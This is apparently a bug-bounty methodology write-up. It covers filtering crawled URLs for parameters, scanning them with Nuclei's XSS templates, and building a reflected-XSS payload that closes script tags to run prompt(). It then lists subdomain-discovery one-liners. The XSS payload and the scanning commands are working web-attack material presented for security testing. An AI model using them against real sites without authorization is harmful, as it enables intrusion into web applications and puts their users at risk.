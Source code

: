 #### **Filtering**

- Extracted URLs containing parameters:
    

```bash
cat katana_endpoints.xt | grep -aEv "\.pdf|\.css|\.js|wp-" | grep "=" | sort -u | uro > params_urls.txt
```

#### **Dynamic Analysis (DAST)**

- Executed Nuclei with the RXSS template to identify unsanitized input vectors:

```bash
nuclei -l params_urls.txt -t /home/kali/.local/nuclei-templates/dast/vulnerabilities/xss/ -dast
```

#### **Manual Testing**

- Analyzed and tested the reflected input area manually (without automated tools).
    
- Crafted a custom payload and executed successfully:

```html
");});//[]></script><script>prompt('/kirito');</script></body></html></!--
```

`');});//]]></script>` This part is used to close the tags in the reflected area. It will be different in every case, and what people will keep doing is , copying these payloads blindly without even 5 min manual analysis of what is going on behind the scene. **That's why blindly throwing payloads and fuzzing with burp intruder might be a waste of time if you don't know what you are doing and why.**


`<!--` Commented the actual code that was supposed to render and execute. We commented, which instructed the browser to ignore the actual one and instead execute a prompt() as a malicious one.

**Note:** If general functions like `alert()` and `prompt()` fail, try `print()`.

_If you want to weaponize XSS from a real attacker's mindset, refer to this

> https://github.com/hakluke/weaponised-XSS-payloads

---

#OneLiners

> https://github.com/dwisiswant0/awesome-oneliner-bugbounty

#subdomain_collections

Tool: https://github.com/coffinxp/loxs

```bash
- Basic Subdomain Discovery
bbot -d target.com
subfinder -d example.com -all -recursive > subexample.com.txt
assetfinder --subs-only target.com >> subexample.com.txt
amass enum -passive -d target.com >> subexample.com.txt

#Find Subdomains of Subdomains

./altdns.py -i subdomains.txt -o data_output -w words.txt -r -s output.txt
#or
./subbrute.py -t list.txt
#Grab every .txt file and deduplicate them.
cat *.txt |  sort -u recon.txt > final-subs.txt

#If you want to be extra cautious and avoid picking up files like `final-subs.txt` itself (if rerunning the script), you could filter explicitly:
cat $(ls *.txt | grep -v '^final-subs.txt$') | sort -u > final-subs.txt
#That excludes `final-subs.txt` from the input list.
```